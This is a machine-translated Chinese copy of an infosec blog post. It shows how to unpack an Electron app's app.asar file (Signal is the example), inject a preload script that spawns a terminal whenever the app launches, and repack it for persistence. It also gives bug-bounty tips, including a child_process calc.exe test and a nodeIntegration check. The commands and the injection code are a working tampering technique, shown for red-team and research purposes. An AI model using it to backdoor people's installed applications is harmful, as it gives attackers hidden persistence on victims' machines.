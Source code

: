 # Bug Bounty 提示和获得电子应用程序的持久性

> 原文：<https://infosecwriteups.com/bug-bounty-tips-and-getting-persistence-with-electron-applications-c538d4dda446?source=collection_archive---------1----------------------->

## 通过重新打包 asar 文件、电子应用程序和其他 bug 赏金提示。主演有《信号》、《不和》、《诺德帕斯》等

对于 discord DLL 劫持漏洞，我注意到一种新的文件类型，我无法放置 **.asar.** 这篇文章解释了 asar 文件，如何使用它们获得轻松的持久性，以及如何在其中找到其他漏洞。

# 什么是？asar 文件。

但首先什么是。asar 文件及其用途。下面的 GitHub 页面给出了一些解释:

[](https://github.com/electron/asar) [## GitHub-electronic/asar:带有索引的简单扩展的类似 tar 的归档格式

### 带有索引的简单扩展的类似焦油的存档格式

github.com](https://github.com/electron/asar) 

这是一种专门用于电子档案的档案格式。可以将您的应用程序打包成这种格式，以后可以用来运行您的电子 npm 应用程序。

有趣的是拆包和打包功能。这样就可以打包和解包一个. asar 文件，从而检查应用程序。新的攻击方式开始了。

## 可能的目标

首先，我开始寻找使用 asar 文件扩展名的应用程序，其次是 discord。我在我的机器上找到了一些:

1.  松弛的
2.  组
3.  信号
4.  诺德帕斯
5.  邮递员
6.  Dropbox

除了 dropbox 之外，所有这些文件都位于%Appdata%/local 目录中，因此这些文件对于给定用户是可写的。Dropbox 将它放在 Program Files 目录中，这对于普通用户来说更难操作，因此不是真正的目标。

因为我已经在我的设备上安装了 npm，所以我已经准备好了。在这篇文章中，我将以 signal 为例，但它适用于所有经过测试的应用。

# 拆包信号。asar 文件

信号的 asar 文件位于**% APPDATA % \ Local \ Programs \ Signal-desktop \ resources**

在那里，可以运行以下命令来提取 app.asar 文件，并将其内容写入名为 destfolder 的文件夹中

```
npx asar extract app.asar destfolder
```

如下图所示，这会打开信号应用程序，并显示完整的客户端应用软件。这为多重测试提供了空间。心中第一:坚持。我们能否添加任意代码，重新打包并运行它，而不让应用程序检查错误，或者不让 windows defender 或 Bitdefender 收到警报？

![](img/fad49aef604940e15f89ed672364f1b8.png)

## 获得持久性

通过快速的谷歌搜索，我找到了某个邪恶电子应用的[代码](https://github.com/parsiya/evil-electron/blob/master/preload.js)。使用的代码如下所示。

```
// Detect the operating system.
var platform = require('process').platform;

// Commands
const win32Command = "start cmd.exe";
const darwinCommand = "'/System/Applications/Terminal.app/Contents/MacOS/Terminal',function(){}";
const linuxCommand = "gnome-terminal"; // Issue#2: Find a `universal` Linux command.

var command = "";

console.log(`Running on ${platform}`);

switch (platform) {
    case "win32":
        command = win32Command;
        break;
    case "darwin":
        command = darwinCommand;
        break;
    case "linux":
        command = linuxCommand;
        break;
}

console.log(`Command to be executed: '${command}'`);

if (command === "") {
    console.log(`Operating system '${platform}' is not supported.`);
} else {
    // Spawn a command prompt.
    require('child_process').exec(command);
}
```

根据受害者使用的操作系统，该应用程序将生成所需的终端。可爱的跨平台执行。

在提取的文件夹中，我搜索 package.json，它将给出关于应用程序启动功能的信息。

![](img/678d298d8a19f1f8a1966994d58e9ede.png)

在 Signals 实例中，主应用程序位于 app/main.js 中。**【显示窗口】**函数和上面声明的变量。

![](img/26ae8922e1330d484e56a8e331f845fd.png)

并使用以下命令重新打包已更改的 destfolder:

```
npx asar pack destfolder app.asar
```

现在，每当受害者启动信号，它将启动一个独立于信号的 cmd 窗口。它也不会是信号进程的子进程，而是一个没有父进程的进程。

![](img/43c75ad142af4c5aec0d58e7ddfa2a79.png)

当然，在当前状态下，受害者会发现有一个 cmd shell 正在启动，应该实施一种更安静的方法。

即使目标系统上尚未安装 npm，也可以使用 app.asar 的恶意副本来覆盖该应用程序。即使有问题的应用程序已经在使用中！它不会给出任何错误或警告。

## Bugbounty 的其他类型的攻击

坦率地说，以上攻击更多的是针对持久性，但是应用程序也可以用不同的方法进行测试:

要找到秘密，你可以使用下面的单词表

[https://gist . githubusercontent . com/EdOverflow/8 BD 2 faad 513626 c 413 b 8 fc 6 e 9d 955669/raw/06 A0 ef 0 FD 83920d 513 c 65767 aae 258 ECF 8382 BDF/gist file 1 . txt](https://gist.githubusercontent.com/EdOverflow/8bd2faad513626c413b8fc6e9d955669/raw/06a0ef0fd83920d513c65767aae258ecf8382bdf/gistfile1.txt)

对于安全扫描应用程序，可以使用电负性。该应用程序将扫描应用程序的默认错误。【https://github.com/doyensec/electronegativity】T5


当然，你也可以尝试启用 devtools，拦截流量。这将在下面的文章中详细解释。

[https://blog . doyensec . com/2018/07/19/instrumenting-electronic-app . html](https://blog.doyensec.com/2018/07/19/instrumenting-electron-app.html)。

如果你能打开开发工具。*使用 ctrl + shift + i 快速检查。*您可以在控制台中验证是否可以运行计算过程。如果是这样的话，你离 RCE 就差一个 XSS 了。

测试代码:

```
require('child_process').exec('C:/Windows/System32/calc.exe')
```

这也可以在代码中进行验证，以检查 nodeIntegration 是否设置为 true。从版本 5.0 开始，默认情况下这是禁用的，理由很充分！

```
webPreferences: {
            nodeIntegration: true
        }
```

利用客户端应用程序的详细信息，还可以检查 npm 的“依赖性混淆”攻击或其他供应链攻击。Snyk 的一个很棒的博客可以在。

[https://snyk . io/blog/NPM-安全-预防-供应链-攻击/](https://snyk.io/blog/npm-security-preventing-supply-chain-attacks/)

**结论**

。asar 是一种全新的体验，上面提到的技巧可以提供一些简单的持久性。没有哈希验证来验证 app.asar 在这些大型应用程序中是否发生了更改，因此检测是有限的。坦白说，我觉得很有趣。然而，我还没有用 XDR 测试它，并期望他们过滤掉这些攻击。攻击媒介只对持久性方法感兴趣。因此，您已经需要访问设备本身来执行这些攻击。

不过为了以防万一，任何红队相关的活动我都会带上攻击方法。

希望其他的技巧能帮你找到一些其他的 bug。

如果你想讨论任何与信息安全相关的话题，我在 LinkedIn:[https://www.linkedin.com/in/bobvanderstaak/](https://www.linkedin.com/in/bobvanderstaak/)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！